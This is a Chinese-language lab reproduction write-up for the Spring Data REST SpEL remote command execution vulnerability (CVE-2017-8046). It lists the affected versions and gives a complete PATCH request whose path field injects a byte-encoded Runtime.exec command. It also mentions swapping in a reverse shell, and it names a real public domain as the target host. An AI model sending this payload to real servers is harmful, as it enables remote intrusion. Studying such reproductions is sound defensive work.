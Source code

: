 # （CVE-2017-8046）Spring Data Rest 远程命令执行漏洞

### 一、漏洞简介

Spring Data REST是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST API的Patch方法中（实现RFC6902），path的值被传入setValue，导致执行了SpEL表达式，触发远程命令执行漏洞。

### 二、漏洞影响

PivotalSpringDataREST2.5.12之前的版本，2.6.7之前的版本，3.0RC3之前的版本

SpringBoot2.0.0M4之前版本

SpringDataKay-RC3之前的版本

### 三、复现过程

访问`http://www.baidu.com:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：


```bash
PATCH /customers/1 HTTP/1.1
Host: www.baidu.com:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
```

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`表示的命令touch /tmp/success。然后进入容器docker-compose exec spring bash看看：

![](images/2020_06_02/15912763731919.png)


可见，success成功创建。

将bytecode改成反弹shell的命令（注意：Java反弹shell的限制与绕过方式），成功弹回：

![](images/2020_06_02/15912763802233.png)


### 参考链接

https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-8046